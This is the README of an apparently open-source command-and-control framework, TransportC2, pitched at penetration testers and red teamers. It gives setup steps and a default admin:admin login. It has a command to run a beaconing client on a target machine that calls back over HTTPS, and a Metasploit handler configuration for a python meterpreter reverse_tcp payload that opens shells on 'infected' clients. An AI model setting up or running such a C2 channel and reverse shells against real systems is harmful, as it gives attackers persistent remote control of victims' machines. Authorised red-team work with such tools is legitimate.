 # TransportC2

## Summary
TransportC2 is a command and control server with a full UI that allows interaction with clients through a private web interface. This allows penetration testers and red teamers the ability maintain their connection without being tied to an active session. Once logged into the admin interface, add new authorized users for team interaction and collaboration. 


Why "Transport"? TransportC2 is meant to be a long-term channel that allows users to direct payloads to other, shorter-term C2's for further post-exploitation. This is exemplified by the built-in Metasploit module, simply execute "msfpayload 192.168.1.1 4444" to open a meterpreter session on an infected client.


## Server
The TransportC2 server has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact with C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


## Client
As of now, TransportC2 has a PoC client written in Python 2/3. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 client.py 127.0.0.1 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:
![HelpMenu](server/AdminServer/static/img/help.png)

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```

## Screenshots
![Login](server/AdminServer/static/img/login.png)
![CmdPanel](server/AdminServer/static/img/cmd.png)

## Contributors 
Thanks to the following contributors that made this project possible:
* @darneymartin

Unintended Contributors
* @byt3bl33d3r

